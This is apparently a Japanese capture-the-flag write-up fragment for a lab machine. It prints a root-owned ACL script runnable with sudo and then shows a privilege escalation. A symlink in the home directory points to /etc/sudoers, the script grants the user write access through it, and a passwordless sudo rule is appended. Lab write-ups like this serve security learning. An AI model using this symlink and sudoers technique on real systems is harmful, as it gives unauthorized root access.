 何をするshellscriptなんだ？
```bash
mtz@permx:~$ cat /opt/acl.sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

rootでないユーザーは編集はできないと
```bash
mtz@permx:~$ ls -la /opt/acl.sh
-rwxr-xr-x 1 root root 419 Jun  5  2024 /opt/acl.sh

```

シンボリックリンクを作成
`/etc/sudoers`ファイルを指すシンボリックリンクを作成します。このリンクは`mtz`ユーザーのホームディレクトリに作られる
```bash
mtz@permx:~$ ln -s /etc/sudoers root

```

`acl.sh`スクリプトを使用して権限を変更
シンボリックリンクで指定したファイルに`mtz`ユーザーが読み取り・書き込み権限を持つように設定
```bash
mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/root

```

`/etc/sudoers`ファイルを編集
シンボリックリンクを通じて`/etc/sudoers`ファイルに以下の行を追加
`mtz`ユーザーはパスワードなしで任意のコマンドをrootとして実行可能にする
```bash
mtz@permx:~$ echo "mtz ALL=(ALL:ALL) NOPASSWD: ALL" >> /home/mtz/root
```
